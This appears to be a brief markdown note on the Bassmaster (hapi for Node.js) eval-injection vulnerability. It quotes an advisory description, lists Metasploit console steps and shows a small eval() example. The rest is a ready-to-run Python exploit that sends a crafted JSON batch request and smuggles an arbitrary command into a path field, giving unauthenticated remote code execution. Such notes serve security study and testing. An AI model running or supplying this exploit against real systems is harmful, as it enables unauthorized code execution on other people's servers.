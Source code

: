 #  Bassmaster NodeJS Arbitrary JavaScript Injection Vulnerability 
- https://www.rapid7.com/db/modules/exploit/multi/http/bassmaster_js_injection/

Bassmaster Batch Arbitrary JavaScript Injection Remote Code Execution
Eval injection vulnerability in the internals.batch function in lib/batch.js in the bassmaster plugin prior to 1.5.2 for the hapi server framework for Node.js allows remote malicious users to execute arbitrary Javascript code via unspecified vectors.
This module exploits an un-authenticated code injection vulnerability in the bassmaster nodejs plugin for hapi. The vulnerability is within the batch endpoint and allows an attacker to dynamically execute JavaScript code on the server side using an eval. Note that the code uses a '\x2f' character so that we hit the match on the regex.
``` shell
msf > use exploit/multi/http/bassmaster_js_injection
      msf exploit(bassmaster_js_injection) > show targets
            ...targets...
      msf exploit(bassmaster_js_injection) > set TARGET <target-id>
      msf exploit(bassmaster_js_injection) > show options
            ...show and set options...
      msf exploit(bassmaster_js_injection) > exploit
```

## eval()
- https://www.w3schools.com/jsref/jsref_eval.asp
```javascript
let x = 10;
let y = 20;
let text = "x * y";
let result = eval(text);
```

## exploit 
```python
import requests,sys

if len(sys.argv) != 3:
    print "(+) usage: %s <target> <cmd_injection>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = sys.argv[2]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'
request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % cmd

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
```
